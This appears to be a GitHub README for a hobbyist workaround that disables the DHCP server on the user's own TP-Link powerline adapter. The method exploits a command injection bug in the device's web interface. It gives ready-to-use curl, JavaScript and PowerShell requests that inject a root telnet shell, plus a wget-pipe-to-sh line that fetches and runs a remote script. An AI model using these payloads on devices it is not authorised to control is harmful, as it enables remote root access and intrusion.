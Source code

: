 # Disable DHCP
This disables the DHCP server, which breaks internet on networks with a primary DHCP server. See [this forum post on the TP-Link forums](https://community.tp-link.com/us/home/forum/topic/106148) for user complaints. TP-Link never updated the firmware on this model to add on option to disable the server.

# Usage
## 1
Log into powerline web interface/management page
## 2
Note the url/ip address to the powerline and authorization cookie
## 3
Send an authenticated HTTP POST request to `http://${powerline_url}/powerline?form=plc_device` with the following data. Alternatively, sent the request from your browser. Use either CURL, setting the shell script variables `powerline_url` and `authorization_cookie` to appropriate values:
```bash
curl 'http://${powerline_url}/admin/powerline?form=plc_device' -X POST -H 'Accept: application/json, text/javascript, */*; q=0.01' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: ${powerline_url}/' -H 'Origin: ${powerline_url}' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Cookie: Authorization=${authorization_cookie}' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' -H 'X-Requested-With: XMLHttpRequest' -H 'Pragma: no-cache' -H 'Cache-Control: no-cache' --data-raw 'operation=remove&key=1;telnetd -l /bin/sh'
```
or this JavaScript fetch code (run on powerline page):
```javascript
await fetch(`http://${powerlineUrl}/admin/powerline?form=plc_device`, {
    "credentials": "include",
    "headers": {
        "Accept": "application/json, text/javascript, */*; q=0.01",
        "Accept-Language": "en-US,en;q=0.5",
        "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
        "X-Requested-With": "XMLHttpRequest",
        "Pragma": "no-cache",
        "Cache-Control": "no-cache"
    },
    "referrer": `http://${powerlineUrl}/`,
    "body": "operation=remove&key=1;telnetd -l /bin/sh",
    "method": "POST",
    "mode": "cors"
});
```
or PowerShell code (not really tested):
```powershell
$session = New-Object Microsoft.PowerShell.Commands.WebRequestSession
$session.Cookies.Add((New-Object System.Net.Cookie("Authorization", $authorizationCookie, "/", $powerlineUrl)))
Invoke-WebRequest -UseBasicParsing -Uri "http://$powerlineUrl/admin/powerline?form=plc_device" `
-Method POST `
-WebSession $session `
-Headers @{
"Accept" = "application/json, text/javascript, */*; q=0.01"
  "Accept-Language" = "en-US,en;q=0.5"
  "Accept-Encoding" = "gzip, deflate"
  "Referer" = "http://$powerlineUrl/"
  "Origin" = "http://$powerlineUrl"
  "DNT" = "1"
  "X-Requested-With" = "XMLHttpRequest"
  "Pragma" = "no-cache"
  "Cache-Control" = "no-cache"
} `
-ContentType "application/x-www-form-urlencoded; charset=UTF-8" `
-Body "operation=remove&key=1;telnetd -l /bin/sh"
```

This exploits a command injection vulnerability in the http server code on the powerline to start a telnet server. Thanks to [this blog post](https://the-hyperbolic.com/posts/hacking-the-tlwpa4220-part-1/) from the hyperbolic for a great writeup about the vulnerability.

### Easier step
Host a local HTTP/FTP server with payload.sh and change the above body to 
```
"operation=remove&key=1;wget -q -O - http://<server to download payload>/payload.sh | sh"
```

This disables the DHCP server by running the script directly downloaded from the internet and doesn't require any other commands. Read some [final notes](#done)

## 4
Run `payload.sh` on the powerline via telnet by running on your local machine `upload-payload.sh`

Read the output and make there aren't any errors.

If you don't see any output, try increasing the sleep time higher than 15.
If the payload was interrupted or already run before, you may need to undo its partially changes before rerunning the script. I should document how to do that.

(see https://unix.stackexchange.com/a/296161) for source of this command.

Alternatively, copy and paste the contents into telnet.

## 5
To verify if command worked, telnet into the powerline and print the contents of `/usr/sbin/udhcpd`:
```bash
cat /usr/sbin/udhcpd
```
Verify that it is just a shell script that just creates the `/tmp/udhcpd.pid` file or something similar.

## 6
Kill the telnet server since that is a big vulnerability
```bash
killall -9 telnetd
```

## Done
And that's it. The DHCP server on the powerline should never start up. This process will need to be repeated each time the powerline is rebooted or loses power.

The script should leave two log entries in the "System Log": A "DHCP Client" log of level "INFO", and a "MAC-FILTER" log of level "ERROR". The script didn't actually to anything to the MAC filter. It is just a byproduct of logging.

# Technical Details
I could have modified the firmware instead of this solution. Doing so would make the changes persistent. The current solution modifies only RAM and not the firmware. I chose this method instead because I do not want to risk bricking my device; this device doesn't appear to have any recovery mechanisms via TFTP like some routers.
The daemon LanSettingsd starts `/usr/sbin/udhcpd`, which is from `busybox`, under certain conditions.
From reverse engineering via Ghidra, one condition triggering it is when LAN settings (IP address, subnet mask, etc.) are written to (changed) from the web, but I'm not very confident about that.

This solution overwrites the `udhcpd` executable with a shell script that returns immediately instead. The shell script also creates a `/tmp/udhcpd.pid` file because LanSettingsd appears to use that file to decide whether to try starting `udhcpd` again. There shouldn't be any impact of it starting the modified `udhcpd` mulitple times, but it seems inefficient. See the function `FUN_00011070` in `LanSettingd`.

The root filesystem is a squashfs which is read-only. To allow modifications, therefore, we bind mount a tmpfs (`/tmp/hacked_sbin`) over `/usr/sbin` and put a modfied copy of the original `/usr/sbin` into the tmpfs.

I could also paste the entire command into the command injection rather than use telnet. Figuring out escaping seems a bit annoying. Also, I'm not sure if there's a character limit. In `httpd`, the `execFormatCmd` function appears to have a 2048 byte buffer, which might be a limit (though large enough for our purposes).

